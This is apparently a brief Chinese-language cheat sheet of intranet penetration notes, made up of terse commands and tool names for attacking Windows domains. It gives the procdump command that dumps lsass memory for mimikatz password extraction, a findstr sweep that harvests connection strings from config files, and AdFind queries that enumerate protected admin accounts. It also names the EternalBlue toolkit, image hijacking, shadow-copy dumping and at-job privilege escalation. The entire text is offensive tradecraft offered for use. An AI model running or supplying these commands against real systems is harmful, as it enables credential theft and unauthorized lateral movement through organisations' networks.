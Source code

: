 # 内网渗透

procdump+mimi抓取密码

```text
procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
```

密码恢复软件

{% embed url="https://www.nirsoft.net/password\_recovery\_tools.html" %}

windows日志分析软件  -》 logparser

dde执行命令

regeorg asp的代理脚本

IIS管理命令工具appcmd，需要过UAC，可以ipc登录使用at命令执行定时任务或者提权

数据库信息收集

```text
findstr /S connectionString ***.config > ***.txt
```

网段存活主机探测

```text
nbtscan 网段
```

永恒系列漏洞工具包



镜像劫持

拓扑信息收集

vssdump 卷影复制

用adfind查找admincount=1

```text
受保护的用户
Adfind.exe -b DC=domain,DC=com -f "&(objectcategory=person)(samaccountname=*)(admincount=1)" –dn
受保护的组
Adfind.exe -b DC=domain,DC=com -f "&(objectcategory=group)(admincount=1)" -dn
```

